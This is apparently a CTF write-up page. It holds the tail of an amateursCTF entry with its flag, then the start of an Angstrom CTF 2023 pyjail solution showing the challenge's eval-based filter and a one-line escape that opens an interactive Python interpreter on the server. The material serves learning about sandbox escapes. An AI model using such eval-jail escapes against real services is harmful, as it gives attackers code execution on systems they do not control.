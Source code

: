 ```python
```
🖨️🔍✨ During the process, it seems that multiple possibilities were printed, but only one of them made logical sense. 🤔📄💡
```
amateursCTF{7his_belongs_ins1de_mi5c}
```
🎉🎉 GG 😉🎮🏆


# Angstrom CTF 2023

## Obligatory
### TLDR
```python
(__builtins__:=__import__('code'))==(lambda:interact())()
```
### The Challenge
>"angstrom needs a pyjail" - kmh11

We're given a Python file and an address where the Python program is running. Our goal is to get a shell.

```python
#!/usr/local/bin/python
cod = input("sned cod: ")

if any(x not in "q(jw=_alsynxodtg)feum'zk:hivbcpr" for x in cod):
    print("bad cod")
else:
    try:
        print(eval(cod, {"__builtins__": {"__import__": __import__}}))
    except Exception as e:
        print("oop", e)
```
At the beginning we read the input, then we check the input against some letters and if all letters in the input are allowed then we pass our string to an eval. The biggest caveat of this challenge is the lack a dot, so we can't do it in the usual method of calling methods on an import and the only function given to our `eval` through globals is `__import__`. The eval function also takes an `locals` argument which we didn't overwrote so we can check if maybe there's something useful. I'll do this by adding a simple `print(locals())` at the beginning.
```
➜  Downloads head jail.py
#!/usr/local/bin/python
print(locals())
cod = input("sned cod: ")

if any(x not in "q(jw=_alsynxodtg)feum'zk:hivbcpr" for x in cod):
    print("bad cod")
else:
    try:
        print(eval(cod, {"__builtins__": {"__import__": __import__}}))
    except Exception as e:
➜  Downloads python jail.py
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f8ce1a1d450>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/tabun-dareka/Downloads/jail.py', '__cached__': None}
```
Even though there's nothing useful there, we can see the `__builtins__` dunder variable there, and that's how I got this idea of overwriting it. So now let's explain why this solution works step by step.
```python
(__builtins__:=__import__('code'))==(lambda:interact())()
```